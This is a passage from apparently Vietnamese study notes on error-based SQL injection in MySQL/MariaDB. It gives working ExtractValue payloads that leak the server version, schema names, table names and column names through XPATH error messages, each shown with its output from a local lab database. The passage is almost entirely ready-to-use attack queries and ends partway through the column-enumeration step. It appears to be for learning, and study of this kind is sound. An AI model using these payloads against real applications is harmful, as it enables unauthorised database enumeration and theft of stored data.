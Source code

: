 - Sử dụng *Extractvalue function*, về cơ bản thì *Extractvalue function* rất giống với *UpdateXML function*

  - Payload:

    ```mysql
    select * from menu where id = 1 and extractvalue(rand(),concat(CHAR(126),version(),CHAR(126)));
    ```

    ```mysql
    MariaDB [xssuser]> select * from menu where id = 1 and extractvalue(rand(),concat(CHAR(126),version(),CHAR(126)));
    ERROR 1105 (HY000): XPATH syntax error: '~10.1.41-MariaDB-0ubuntu0.18.04.'
    ```

  - Payload:

    ```mysql
    select * from menu where id = 1 and extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT 3,1)))
    ```

    ```mysql
    MariaDB [xssuser]> select * from menu where id = 1 and extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT 3,1)));
    ERROR 1105 (HY000): XPATH syntax error: ':~sqlinjection~'
    MariaDB [xssuser]> select * from menu where id = 1 and extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT 4,1)));
    ERROR 1105 (HY000): XPATH syntax error: ':~xssuser~'
    ```

  - Payload:

    ```mysql
    select * from menu where id = 1 and extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema='xssuser' LIMIT 0,1)))
    ```

    ```mysql
    MariaDB [xssuser]> select * from menu where id = 1 and extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema='xssuser' LIMIT 0,1)));
    ERROR 1105 (HY000): XPATH syntax error: ':~menu~'
    MariaDB [xssuser]> select * from menu where id = 1 and extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema='xssuser' LIMIT 1,1)));
    ERROR 1105 (HY000): XPATH syntax error: ':~user~'
    ```

  - Payload:

    ```mysql
    select * from menu where id = 1 and extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME='menu' LIMIT 0,1)))
    ```
